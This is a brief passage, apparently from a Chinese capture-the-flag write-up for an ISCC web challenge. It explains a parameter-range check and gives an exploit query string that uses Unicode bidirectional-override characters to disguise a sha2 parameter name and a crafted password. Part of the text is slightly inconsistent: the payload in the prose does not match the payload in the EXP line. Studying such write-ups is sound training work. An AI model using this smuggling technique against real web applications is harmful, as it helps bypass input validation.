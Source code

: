 观察发现，在`intval40`参数值范围在 $2^{32}$~$2^{33}-1$，满足条件`$falg == 1`，其余情况，原样返回。我们只需破坏`ISCC`关键词，依然包含上方的流程，`%01%43SCCNOTHARD`

EXP:

```
?username=14987637&password=%01!SCCNOTHARD&%E2%80%AE%E2%81%A6//sha2%E2%81%A9%E2%81%A6sha2=AAAAAAAA&sha1=puxyvwrv
```
